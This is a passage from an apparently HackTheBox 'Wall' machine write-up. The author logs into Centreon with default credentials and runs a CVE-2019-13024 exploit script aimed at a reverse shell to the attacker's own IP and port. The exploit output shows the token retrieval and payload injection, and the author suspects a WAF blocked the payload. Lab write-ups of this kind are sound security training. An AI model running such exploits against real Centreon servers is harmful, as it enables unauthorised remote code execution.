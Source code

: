 Hahaha, I should have tested this simple password before bruteforcing the login.

I can login to the Centreon app with `admin` / `password1`:

![](/assets/images/htb-writeup-wall/Screenshot_9.png)

The version is probably vulnerable to CVE-2019-13024 since it's running verison 19.04.0:

![](/assets/images/htb-writeup-wall/Screenshot_10.png)

I tried getting a reverse shell with the following but that didn't work:

```
# python Centreon-exploit.py http://10.10.10.157/centreon admin password1 10.10.14.19 4444
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 86c1c3f00327a8b146385ebc0ca23bde
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 0e9822c471232e62c101655d120676b6
[+] Injecting Done, triggering the payload
[+] Check your netcat listener !
```

The WAF might be preventing the exploit from working. I modified the exploit to add debugging and display the xml message

![](/assets/images/htb-writeup-wall/Screenshot_11.png)

Now I'm seeing that it's trying to execute `id%2523` but it not's configured in my exploit payload so maybe the WAF filtered out my payload.

![](/assets/images/htb-writeup-wall/Screenshot_12.png)
